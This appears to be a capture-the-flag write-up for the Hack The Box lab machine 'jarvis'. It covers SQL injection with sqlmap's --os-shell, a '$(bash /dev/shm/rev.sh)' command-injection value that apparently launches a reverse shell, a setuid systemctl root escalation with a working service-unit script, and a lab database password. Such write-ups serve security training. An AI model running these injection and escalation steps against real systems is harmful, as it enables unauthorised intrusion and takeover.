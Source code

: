# jarvis : `10.10.10.143`

**Table Of Contents:**

<!-- TOC -->

- [jarvis : `10.10.10.143`](#jarvis--101010143)
  - [Enumerating database](#enumerating-database)
  - [Credentials](#credentials)
  - [Synopsis](#synopsis)
  - [Enumeration](#enumeration)
    - [Opened Ports](#opened-ports)
  - [FootHold](#foothold)
  - [Lateral Movement](#lateral-movement)
  - [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->

## Enumerating database

- Extract all database names : `SELECT group_concat(0x0a,schema_name FROM information_schema.schemata`

---

## Credentials


| Service | Username | Password |
| :-------: | :--------: | :--------: |
|  mysql  | DBadmin | imissyou |
|         |         |         |

---

## Synopsis

---

## Enumeration

### Opened Ports

- [ ] 22 (SSH)
- [ ] 80 (HTTP)

---

## FootHold

- On the homepage, `supersecurehotel.htb` discovered.
- The parameter `cod` on the room.php page was vulnerable to error based sql injection.
- ![](assets/20210630_015616_image.png)
- Got shell from sqlmap using --os-shell feature which is quite a 🌶 feature. I like it personally.
- User `www-data` can run a simpler.py file with as pepper. Finding way to escalate the privilege from www-data to pepper.

---

## Lateral Movement

- Noticed that `systemctl` has setuid set. Will give a try once got hold of pepper user.

  ```bash
  User www-data may run the following commands on jarvis:   
  ```
- Using `$(bash /dev/shm/rev.sh)` to bypass all those forbidden characters.

  ```bash
  www-data@jarvis:/var/www/Admin-Utilities$ sudo -u pepper ./simpler.py -p
  ***********************************************
       _                 _   
   ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
  / __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
  \__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
  |___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                  |_|               |_|    |___/ 
                                  @ironhackers.es

  ***********************************************

  Enter an IP: $(bash /dev/shm/rev.sh)
  ```
- Got user `pepper` 💥

---

## Privilege Escalation

- `systemctl` has setuid set.
- With the help of [gtfobins](https://gtfobins.github.io/gtfobins/systemctl/#suid) , got access to root.

```bash
cd /tmp
TF=`mktemp`.service
echo '[Service] 
Type=oneshot 
ExecStart=/bin/bash /dev/shm/rev 
[Install] 
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
